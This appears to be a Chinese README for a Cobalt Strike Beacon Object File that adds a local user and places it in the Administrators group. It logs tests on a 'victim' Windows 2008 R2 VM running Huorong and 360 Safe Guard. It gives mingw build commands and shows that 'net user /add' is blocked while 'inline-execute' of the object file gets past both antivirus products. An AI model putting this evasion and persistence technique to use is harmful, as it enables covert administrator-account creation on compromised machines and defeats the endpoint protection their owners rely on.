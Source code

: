 ### 0x00 基本原理
利用CS4.1中新出的BOF功能提供的API实现添加用户，并将用户添加到管理员组

### 0x01 测试火绒过程记录
受害虚拟机：Windows 2008 R2安装火绒  
kali下执行如下命令安装需要的库
```
sudo apt install mingw-w64-tools mingw-w64-common g++-mingw-w64 gcc-mingw-w64 upx-ucl osslsigncode
```
安装完之后，执行如下命令分别生成32位和64位的对象文件
```
x86_64-w64-mingw32-gcc -c bof-net-user.c -o bof-net-user-x64.o
i686-w64-mingw32-gcc -c bof-net-user.c -o bof-net-user-x86.o
```
CS上线后，直接执行
```
shell net user test test /add
```
会被拦截，如下图  
![image](./pic/0.png)
通过内联执行的方式执行对象文件bof-net-user-x86.o
```
inline-execute /home/kali/Desktop/bof-net-user-x86.o
```
等待一会，反馈成功添加用户，如下图  
![image](./pic/1.png)  
回到受害机上查看，成功添加用户，如下图  
![image](./pic/2.png)  

### 0x01 测试360安全卫士过程记录
受害虚拟机：Windows 2008 R2安装360安全卫士  
同样CS上线后，直接执行
```
shell net user test test /add
```
会被拦截，如下图  
![image](./pic/3.png)  
通过内联执行的方式执行对象文件bof-net-user-x86.o
```
inline-execute /home/kali/Desktop/bof-net-user-x86.o
```
等待一会，反馈成功添加用户，如下图  
![image](./pic/4.png)  
回到受害机上查看，成功添加用户，如下图  
![image](./pic/5.png)  
